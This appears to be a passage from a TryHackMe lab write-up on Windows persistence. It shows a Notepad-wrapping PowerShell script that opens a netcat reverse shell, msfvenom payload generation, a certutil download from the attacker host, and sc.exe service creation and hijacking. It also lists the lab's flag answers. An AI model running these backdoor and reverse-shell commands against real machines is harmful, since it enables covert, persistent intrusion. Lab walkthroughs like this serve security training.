 ```ps
#required backdoor script
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.53.136 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

```markdown
1. flag5? - THM{NO_SHORTCUTS_IN_LIFE}

2. flag6? - THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```

## Abusing Services

* By abusing services, we can regain control of victim machine each time it is started.

* Creating backdoor services:

```cmd
#in attacker machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.53.136 LPORT=4448 -f exe-service -o rev-svc.exe
#this creates an executable payload, which can be copied to target system now

python3 -m http.server

nc -nvlp 4448

#in victim machine
certutil.exe -urlcache -f http://10.10.53.136:8000/rev-svc.exe rev-svc.exe

#create service
sc.exe create THMservice2 binPath= "C:\Users\Administrator\Desktop\rev-svc.exe" start= auto

sc.exe start THMservice2
#this gives us a reverse shell
```

* Modifying existing services:

```cmd
#list of available services
sc.exe query state=all

sc.exe qc THMService3
#shows a stopped service's config
#for persistence, start_type should be automatic
#service_start_name should be set to LocalSystem
#and binary_path_name should point to payload

sc.exe config THMservice3 binPath= "C:\Users\Administrator\Desktop\rev-svc.exe" start= auto obj= "LocalSystem"

#start a listener on attacker machine
#start service
sc.exe start THMservice3
#we get access
```
